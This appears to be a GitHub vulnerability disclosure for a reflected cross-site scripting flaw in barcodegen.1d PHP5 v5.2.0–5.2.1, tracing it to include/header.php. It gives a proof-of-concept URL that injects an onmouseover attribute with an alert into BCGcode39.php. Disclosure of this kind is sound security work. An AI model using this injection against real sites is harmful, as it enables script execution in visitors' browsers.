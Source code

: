# barcodegen.1d-PHP5-v5.2.0-5.2.1-Cross-Site-Scripting


Download barcodegen.1d-php5.v5.2.1 (https://www.barcodebakery.com/en/download)

![image](https://github.com/wanglingjhen/barcodegen.1d-PHP5-v5.2.0-5.2.1-Cross-Site-Scripting/blob/main/Download_code.png)

Open the files,use ['include/header.php']

![image](https://github.com/wanglingjhen/barcodegen.1d-PHP5-v5.2.0-5.2.1-Cross-Site-Scripting/blob/main/include_header.png)

Open header.php,

![image](https://github.com/wanglingjhen/barcodegen.1d-PHP5-v5.2.0-5.2.1-Cross-Site-Scripting/blob/main/header_request_uri.png)

Putting malicious payload in the end of URL. Such as [http://<vulnerable site>/barcode/html/BCGcode39.php/%22onmouseover=%22alert('test_3')%22%22]
  
![image](https://github.com/wanglingjhen/barcodegen.1d-PHP5-v5.2.0-5.2.1-Cross-Site-Scripting/blob/main/url.png)
  
succeed
  
![image](https://github.com/wanglingjhen/barcodegen.1d-PHP5-v5.2.0-5.2.1-Cross-Site-Scripting/blob/main/url_attack.png)
